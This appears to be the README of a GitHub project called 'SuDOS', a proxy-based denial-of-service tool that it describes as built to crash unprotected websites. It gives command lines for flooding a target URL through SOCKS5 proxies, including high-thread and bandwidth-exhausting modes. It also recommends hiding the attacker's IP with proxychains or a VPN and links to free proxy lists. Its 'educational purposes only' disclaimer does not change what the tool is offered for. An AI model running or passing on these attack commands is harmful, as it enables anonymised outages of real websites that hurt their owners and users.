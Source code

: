 # SuDOS

**SuDOS** or Super Denial of Service is a proxy-based DoS tool used to crash unprotected websites from this kind of attack. It is highly recommended to use proxychains or VPN while using this tool to hide your own IP address from proxy servers or even from your target.

Join our Discord: https://discord.com/invite/dZSDbjJPHx

# Disclaimer
- This tool is for educational purposes only.
- I will not be responsible for any damage this tool cause. Use it at your own risk!
- This tool is in early version. Many bugs may occur!

# Usages
- Basic usage
```
python sudos.py -z socks5 -x socks5_list.txt https://target.com/
```
- Harder testing usage
```
python sudos.py -z socks5 -x socks5_list.txt -t 500 -c 0 https://target.com/
```
- Server bandwidth consuming test
```
python sudos.py -z socks5 -x socks5_list.txt -c 0 -n https://target.com/
```

# Where do I get proxy lists?
Just click the links below and find a best proxy list for yourself.
- https://openproxy.space/list
- https://www.proxy-list.download/
- https://www.proxyscrape.com/free-proxy-list

# Screenshots
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_6.png" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_1.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_5.jpg" width=300/>
<img src="https://raw.githubusercontent.com/lilmond/sudos/main/screenshots/sudos_4.png" width=300/>
